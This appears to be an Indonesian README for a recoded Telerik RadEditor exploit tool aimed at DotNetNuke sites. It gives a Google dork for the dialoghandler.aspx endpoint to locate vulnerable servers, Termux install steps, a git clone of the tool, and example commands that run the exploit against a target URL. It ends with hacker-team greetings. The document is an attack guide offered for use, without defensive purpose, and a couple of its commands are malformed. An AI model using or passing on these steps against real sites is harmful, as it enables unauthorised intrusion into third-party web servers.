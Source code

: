 # telerick


recode by Mr Horden-999-
cara pemakaian 
                     POC TELERICK




Dorking menggunakan dork dibawah:

inurl:/desktopmodules/admin/radeditorprovider/dialoghandler.aspx

Kemudian kalian buka Termux

Lalu install tool ini dengan perintah berikut.

$ apt update && upgrade
$ pkg install git
$ pkg install python2
$ pip2 install requests
$ git clone https://github.com/lambang007/telerick

$ cd telerickexploit
$ python2 igstele.py -exploit http://target.com 48 hex 9

atau contoh kayak di bawah ini;

$ python2 igstele.py -exploit http://Target/desktopmodules/admin/radeditorprovider/dialoghandler.aspx 48 hex 9

kemudian salin hasil dan paste di browser anda atau contoh hasil ada di bawah tinggal kalian copy aja

recode by Mr Horden-999-
thanks my team indo ghost security & the next level 
and all friends..........

